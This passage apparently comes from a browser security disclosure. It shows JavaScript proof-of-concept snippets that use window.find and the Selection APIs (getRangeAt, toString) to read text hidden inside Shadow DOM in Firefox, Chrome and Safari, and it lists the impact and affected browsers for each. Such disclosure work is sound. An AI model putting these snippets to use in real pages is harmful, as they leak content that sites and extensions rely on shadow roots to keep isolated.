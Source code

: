 ### Affected browsers
Firefox

## Selection.prototype.getRangeAt
```js
window.find('This is a secret:'); // for selecting string placed in Shadow area without user interaction
node = getSelection().getRangeAt(0).commonAncestorContainer;// or startContainer or endContainer
root = node.getRootNode();
if(root instanceof ShadowRoot){
  alert(root.querySelector('#secret').textContent);
}
```
### Impact
DOM node-level access

### Affected browsers
Firefox

## Selection.prototype.toString
```js
// For Chrome / Firefox
window.find('This is a secret:'); // for selecting string placed in Shadow area without user interaction
document.execCommand('selectAll');// Maximize the selection range
alert(getSelection().toString());
```
```js
// For Safari
// Click Shadow area
window.onclick = function(event) {
  if (event.target === shost && window.find("Shadow DOM", false, true) || window.find("contenteditable", false, false)) {
    window.find('This is a secret:', false, true);
    window.find('This is a secret:', false, false);
    document.execCommand('selectAll');
    alert(getSelection().toString());
  }
}
```
### Impact
text access

### Affected browsers
Chrome, Firefox, Safari

### Notes
To reproduce this on Safari, focus must be set to an element inside the Shadow DOM before executing `window.find()`.
